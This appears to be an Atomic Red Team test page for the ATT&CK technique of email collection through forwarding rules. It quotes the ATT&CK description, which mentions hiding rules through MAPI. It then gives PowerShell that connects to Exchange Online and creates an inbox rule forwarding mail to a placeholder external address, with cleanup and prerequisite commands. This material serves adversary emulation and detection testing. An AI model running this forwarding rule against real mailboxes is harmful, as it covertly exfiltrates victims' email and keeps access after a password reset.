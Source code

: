 # T1114.003 - Email Collection: Email Forwarding Rule
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)
<blockquote>Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)

In some environments, administrators may be able to enable email forwarding rules that operate organization-wide rather than on individual inboxes. For example, Microsoft Exchange supports transport rules that evaluate all mail an organization receives against user-specified conditions, then performs a user-specified action on mail that adheres to those conditions.(Citation: Microsoft Mail Flow Rules 2023) Adversaries that abuse such features may be able to enable forwarding on all or specific mail an organization receives. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)


<br/>

## Atomic Test #1 - Office365 - Email Forwarding
Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365


**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | |
| password | office-365 password | string | |
| rule_name | email rule name | string | Atomic Red Team Email Rule|
| forwarding_email | destination email addresses | string | Atomic_Operator@fakeemail.aq|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "#{forwarding_email}"
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```




<br/>
